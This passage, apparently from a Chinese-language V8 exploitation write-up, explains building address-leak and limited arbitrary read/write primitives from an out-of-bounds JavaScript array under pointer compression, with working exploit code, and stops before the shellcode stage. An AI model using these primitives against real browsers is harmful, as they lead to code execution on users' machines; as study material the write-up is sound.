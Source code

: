 在这种构造下，就可以在获得 double 类型 Array 的 map 与 prototype 的同时篡改新数组的 size 从而获得更大的 OOB，因此上面那段 poc 运行后会输出 `evil.length = 2048`。

### 受限的任意地址读写

在上面构造了超大范围 oob 的情况下，就可以用很多种方法、很轻松地实现任意地址读写，注意由于 elem 指针实际指在一个 FixedArray 对象上，因此在篡改 elem 指针的时候要注意把地址减 8 才能成功读写目标位置的数据：

```javascript
let obj_arr = [{}];
let obj_arr_map = helper.ftoil(evil[0x12]);
let obj_arr_proto = helper.ftoih(evil[0x12]);

function get_addr(x) {
  obj_arr[0] = x;
  evil[0x12] = helper.i64tof64(
    (BigInt(double_proto) << 32n) | BigInt(double_map),
  );
  let res = helper.ftoil(obj_arr[0]) - 1;
  evil[0x12] = helper.i64tof64(
    (BigInt(obj_arr_proto) << 32n) | BigInt(obj_arr_map),
  );
  return res;
}

function limited_read(x) {
  evil[0x12] = helper.i64tof64(
    (BigInt(double_proto) << 32n) | BigInt(double_map),
  );
  evil[0x13] = helper.i64tof64((2n << 32n) | (BigInt(x) - 8n) | 1n);
  let res = helper.f64toi64(obj_arr[0]);
  evil[0x12] = helper.i64tof64(
    (BigInt(obj_arr_proto) << 32n) | BigInt(obj_arr_map),
  );
  return res;
}

function limited_write(x, data) {
  evil[0x12] = helper.i64tof64(
    (BigInt(double_proto) << 32n) | BigInt(double_map),
  );
  evil[0x13] = helper.i64tof64((2n << 32n) | (BigInt(x) - 8n) | 1n);
  obj_arr[0] = helper.i64tof64(data);
  evil[0x12] = helper.i64tof64(
    (BigInt(obj_arr_proto) << 32n) | BigInt(obj_arr_map),
  );
}
```

之所以说是受限的，是因为开启指针压缩后，只能改到实际地址的后 32 位，前 32 位存在 `$r13` 寄存器内。

接下来就需要考虑怎么完成最终利用，即执行 shellcode：
